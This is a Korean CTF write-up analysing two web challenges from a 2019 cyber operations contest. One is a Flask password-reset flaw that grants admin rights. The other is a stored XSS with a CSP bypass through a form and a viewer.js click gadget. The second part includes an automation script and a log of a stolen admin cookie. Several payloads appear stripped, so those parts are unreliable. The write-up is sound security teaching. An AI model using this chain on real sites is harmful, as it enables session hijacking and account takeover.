






2019 사이버 작전 경연대회 예선에 팀 GoN으로 참가하여 4위로 본선에 진출했습니다.

이번 글에서는 제가 해결한 웹 문제인 `Hidden Command` 와 `The Camp` 의 분석 과정을 정리했습니다.



## Hidden Command
### 개요

이 문제에서는 간단한 게시판 서비스와 Flask 기반 백엔드 코드(`front.py`)가 함께 제공되었습니다.

서비스의 주요 기능은 다음과 같습니다.

- 메인 페이지: `/`
- 회원가입: `/signup`
- 로그인: `/signin`
- 로그아웃: `/signout`
- 비밀번호 초기화: `/forget`
  - 코드에서만 존재를 확인할 수 있었습니다.
  - `/forget` 경로로 직접 접근해야 했습니다.
- 게시글 목록: `/board`
- 게시글 작성: `/write`
- 게시글 조회: `/view`

게시글 목록에서 관리자(`admin`) 계정이 비밀 문서를 업로드해 둔 것을 확인할 수 있었고, 해당 문서의 내용을 확인하는 것을 목표로 분석을 진행했습니다.



### 분석

문제에서 소스 코드가 제공되었기 때문에, 우선 기초적인 DB injection과 XSS 가능성을 중심으로 정적 분석을 진행했지만 DB wrapper나 템플릿 렌더링 구간에서는 취약해보이는 구현이 보이지 않았습니다. 대신 로직이 명백하게 비정상적인 함수를 발견했습니다. `clear_user` 입니다.

```python
def clear_user(user):
    user.username = admin_username
    user.password = admin_password
    user.email = admin_email

# ...

@frontend.route("/forget", methods=["GET", "POST"])
def forget():
    form = ForgetForm(request.form)
    msg = None
    if request.method == "POST" and form.validate():
        msg = "User not found"
        user = User.query.filter_by(username = form.username.data, email = form.email.data).first()
        if user:
            new_password = rand_password(10)
            new_user = User(form.username.data, new_password, form.email.data)
            clear_user(user) # <-- HERE
            db_session.add(new_user)

            board_lst = Board.query.filter_by(username = form.username.data).all()
            for b in board_lst:
                b.username = admin_username

            db_session.commit()
            return render_template("forget_res.html", password = new_password)
    return render_template("forget.html", msg = msg, form = form)
```

`clear_user` 는 비밀번호 초기화 로직(`forget`) 내부에서 호출되는데, 이름과 달리 계정을 삭제하지 않고 admin 계정 정보로 덮어쓰는 동작을 수행하고 있었습니다.

또한 `forget` 처리 이후 기존 세션을 정리하지 않았기 때문에, 해당 사용자는 세션이 유지되는 동안 admin 권한을 이어갈 수 있었습니다.

### 공격

최종적으로 아래 순서로 admin 게시물을 확인할 수 있었습니다.

1. 임의 사용자로 회원가입
2. 해당 계정으로 로그인
3. `/forget` 기능으로 비밀번호 초기화 수행
4. 게시글 목록에서 `secret document` 조회



Flag : `FLAG{N0t_s3cur3_4t_411}`

## The Camp

이 문제는 `.secret.php.swp`, `/admin.phar/flag.php` 관련해서 과한 게싱이 필요한 인위적인 파트가 있었어서 아쉬웠던 문제입니다. 추측으로는 문제를 제작할 때 PHP deserialization 취약점도 엮으려고 시도했던 흔적이 아닐까 싶습니다.

하지만 그 파트 전까지는 정적 분석과 동적 분석을 골고루 수행하며 여러 단계에 걸쳐 백엔드 필터링도 우회하고, 프론트엔드 gadget 도 활용해볼 수 있는 좋은 문제였습니다.

### 개요

이 문제에서는 PHP로 구현된 간단한 편지 작성 서비스가 블랙박스로 주어졌습니다.

초기 탐색에서 확인한 기능은 다음과 같습니다.

- 메인 페이지: `/index.php`
  - "All letter you sent will be checked by admin, ..."
- 편지 작성: `/write.php`, `/write_back.php`
- 편지 검토/제출: `/view.php`, `/submit.php`

메인 페이지 설명에 따르면, 편지를 검토한 뒤 최종 제출을 하면 admin이 해당 내용을 확인하는 구조였습니다.

추가로 메인 페이지 소스 주석을 통해 `/secret.php` 경로 존재를 확인했습니다. 다만 해당 경로에 접근하면 admin이 아니라는 응답만 반환되었습니다. 그런 와중에 자동 스캐너에 `/.secret.php.swp` 파일이 잡혀서 확인해보니, 적절한 cred 쿠키를 설정한 상태로 `/admin.phar/flag.php` 에 접근하면 플래그를 얻을 수 있음을 알 수 있었습니다.

다시 돌아와서, 편지를 잘 조작해서 XSS를 통해 admin의 쿠키를 빼오는 것을 다음 목표로 잡고 분석을 진행했습니다.

### 분석

#### 1. Easy XSS?

`/write.php` 에서는 편지 수신인 정보(`regiment`, `company`, `name`)와 편지 본문(`body`)을 입력받고 `POST /write_back.php` 으로 서버에 전달합니다. `POST /write_back.php` 에 다양한 요청 값을 넣어보며 검증 규칙을 확인한 결과는 아래와 같았습니다.

- `regiment`: 1, 2만 허용
- `company`: 1, 2, 3만 허용
- `name`: 영문 알파벳만 허용
- `body`:
  - 일부 HTML 태그는 차단(대소문자 구분 없음): `<script`, `<base`, `<link`, `<iframe`, `<frame`, ...
  - ⚠️ 일부 HTML 태그는 허용: `, \` sanitize 없음

결론적으로 XSS payload 가 들어갈 만한 지점은 `body` 뿐이었고, img 태그를 쓸 수 있고 주요한 특수문자들이 sanitize 되지 않아 충분히 XSS 가 가능해보였습니다. 실제로 아래 payload 를 `body` 에 넣어 XSS가 발생함을 확인했습니다.

`</textarea><textarea>`



이제 admin 쿠키를 유출시킬 수 있도록 아래와 같이 XSS payload 를 세팅하여 admin에게 보내봤습니다.

```html
<!-- 공격자 서버로 쿠키를 보내는 XSS payload (/view.php?lid=<hash> 에서 XSS 발생) -->
</textarea><textarea>
```

하지만, 로컬에서는 성공하던 XSS가 admin을 대상으로는 계속 실패했습니다. 원인 파악을 위해 `/view.php` 의 html 소스를 검토해보니, admin에게 전달되는 URL은 `safe_view=1` 이라는 파라미터가 추가된다는 점을 확인했습니다.

```html
<div class="form-group">
    <label for="body">Your Letter...</label>
    <textarea class="form-control" name="body" id="body" rows="10"
disabled="">Hello<>'"\ </textarea>
</div>
<form class="form" action="submit.php" method="POST">
    <input type="hidden" name="lid" id="lid"
value="9c5d25b989e3b1f494f4327db78fffb1">
    <div class="form-group">
  <label for="url">Current letter URL :</label>
  <!-- admin should use safer viewer -->
  <input class="form-control" type="text" id="url" name="url"
value="http://52.78.85.107/view.php?safe_view=1&amp;lid=9c5d25b989e3b1f494f4327d
b78fffb1" readonly="">
    </div>
    <button type="submit" class="btn btn-primary">Send to your friend</button>
</form>
```

이에 로컬에서 `safe_view=1` 를 포함해서 XSS를 테스트해보니 다음과 같이 스크립트 실행이 차단되는 것을 확인했습니다.



원인은 Content Security Policy (CSP) 였습니다. `/view.php` 는 `safe_view=1` 인 경우 응답 헤더에 다음 정책을 추가하고 있던 것입니다.

`Content-Security-Policy: script-src 'self';`

이 정책은 현재 origin의 스크립트만 허용하고, `img onerror` 같은 inline script 실행을 차단합니다. 일반적으로는 업로드된 JS 파일을 `script src`로 참조하는 방식도 고려할 수 있지만, 이 문제에서는 `body`에서 `<script` 를 필터링하므로 해당 우회는 어려웠습니다.

이에 **admin을 `safe_view=1` 이 없는 `/view.php` 로 유도**하는 방향으로 전환했습니다.

#### 2. Avoid safe_view to avoid CSP

가장 먼저 시도한 방법은 `/submit.php` 로 전달되는 URL에서 `safe_view` 를 제거하는 것이었습니다. 그러나 서버 측 검증으로 인해 실패했습니다.

시도 1: `safe_view` 제거/변조
- 1-1 `POST /submit.php`
  - `lid`: `<hash>`
  - `url`: `http://52.78.85.107/view.php?safe_view=1&lid=<hash>`
- 1-2 `POST /submit.php`
  - `lid`: `<hash>`
  - `url`: `http://52.78.85.107/view.php?safe_view=1&safe_view=0&lid=<hash>`
- 결과: 둘 다 실패
  - URL 파싱 후 `$_GET['safe_view'] === 1` 을 검증하는 로직이 있다고 판단했습니다.

이리저리 테스트해본 결과, admin이 방문하는 URL에 대한 검증은 크게 두 가지였습니다.

- origin 체크: `http://52.78.85.107/view.php` 로 시작해야 한다.
  - `http://attacker.com` -> X
  - `http://52.78.85.107/` -> X
- `safe_view` 체크: GET 파라미터 `safe_view` 의 값이 1이어야 한다.

`safe_view=1` 를 제거하는 접근은 쉽지 않아보이니 inline script 없이 `52.78.85.107/view.php` 에서 redirect를 야기할 수 있는 방법을 고민했고, form 태그를 활용하는 방안을 떠올렸습니다.

1. XSS가 발생하는 `/view.php` 를 `target` 으로 하는 form 태그 삽입
2. admin 브라우저에서 우리가 삽입한 form 의 submit 버튼이 자동 클릭되도록 유도했습니다.

`form` 태그는 `body` 에서 필터링되지 않아서 삽입이 가능했고, 자동 클릭은 페이지 기본 스크립트(`/js/viewer.js`)를 gadget으로 활용해 구현할 수 있었습니다.

```javascript file="/js/viewer.js"
function clickRadio(radio_id) {
  var radio = $("#" + radio_id);
  radio.click();
}
function fillName(name) {
  var n = $("#name");
  n.val(name);
}
document.addEventListener("DOMContentLoaded", function(event) {
  var extra_data = location.hash.substr(1).split('|');
  extra_data.forEach(function(dt) {
    if(dt.length == 2 && (dt[0] === 'y' || dt[0] === 'j'))
      clickRadio(dt);
    else if(dt.substr(0, 2) == "n:")
      fillName(dt.toString().substr(2));

  });
});
```

이 사이트에서는 수신인 정보(`regiment`, `company`, `name`)를 URL fragment에 저장하고, `viewer.js` 에서 이를 복원해 form 입력을 자동으로 세팅하는 기능이 있었습니다. 예를 들어, regiment=1, company=2, name=tom 에 해당하는 fragment 는 `#y1|j2|n:tom` 입니다.

핵심은 `viewer.js` 의 `clickRadio` 가 fragment 값을 id로 해석해 `$("#...").click()` 을 수행한다는 점이었습니다. 이를 활용하면, 삽입한 `form` 의 submit 버튼 id를 `yy`로 설정하고, 제출 URL에 `#yy|j2|n:tom` 형태의 fragment를 추가하면 admin 브라우저에서 해당 submit 버튼이 자동으로 클릭되게 할 수 있었습니다.

이렇게 form 태그를 활용하여 드디어 admin 을 "safe_view=1" 이 없는 XSS 발생 URL로 보낼 수 있었습니다.

### 공격

결론적으로, 다음과 같이 XSS를 수행하여 admin의 쿠키를 획득했습니다.

1. 다음을 `body` 로 하는 편지 A 작성 (편의상 `lid=1`).

    ```html
    </textarea>
    <textarea>
    ```

2. 다음을 `body` 로 하는 편지 B 작성 (편의상 `lid=2`).

    ```html
    </textarea>
    <form action="/view.php" method="GET">
    <input type="hidden" name="lid" id="lid" value="1">
    <button id="yy" class="btn btn-success">Hello</button>
    </form>
    <textarea>
    ```

3. 편지 B를 제출할 때 `/submit.php` 로 보내는 `url` 값 뒤에 `#yy|j1|n:tom` 을 추가.

아래는 위 과정을 자동화한 스크립트입니다.

```python
import requests as r

host = "http://52.78.85.107"

s = r.Session()
s.get(host + "/")

def write(body, name="tom", r="1", c="1"):
    data = {
      'regiment':r,
      'company':c,
      'name':name,
      'body':body
    }
    res = s.post(host + "/write_back.php", data=data)
    if 'Done!' in res.text:
        lid_idx = res.text.find("lid=") + 4
        lid = res.text[lid_idx:lid_idx+32]
        print('\nSUCCESS')
        return lid
    else:
        print('\nFAIL')
        return ""

def send(lid, url):
    data = {
      'lid':lid,
      'url':url
    }
    res = s.post(host + "/submit.php", data=data)
    if "Thank you" in res.text:
        print("\nSUCCESS")
    else:
        print("\nFAIL")

print(s.cookies)


# letter 1 (containing XSS payload)
xss_lid = write('''</textarea><textarea>''')
send(xss_lid, host + "/view.php?lid=%s&safe_view=1#yy|j1|n:tom" % xss_lid)

# letter 2 (containing FORM tag to redirect admin to letter 1 'unsafe' view page)
lid = write('''</textarea><form action="/view.php" method="GET"><input type="hidden" name="lid" id="lid" value="%s"><button id="yy" class="btn btn-success">Hello</button></form><textarea>''' % xss_lid)
send(lid, host + "/view.php?lid=%s&safe_view=1#yy|j1|n:tom" % lid)
```

실행 결과, 아래와 같이 query parameter를 통해 `admin.phar/flag.php` 에서 요구하는 `cred` 값을 얻을 수 있었습니다.

```
52.78.85.107 - - [18/Aug/2019 23:27:24] "GET
/?cred=y0u_4r3_g0000000d_47_byb_!!;%20PHPSESSID=3190kve8a7to5h3ea1
kctkp4s7 HTTP/1.1" 200 -
```

이후 `cred=y0u_4r3_g0000000d_47_byb_!!` 값을 쿠키로 설정해 `/admin.phar/flag.php` 에 접근하여 플래그를 확인했습니다.



Flag: `FLAG{w0000h_RainbowReflect_PHP}`
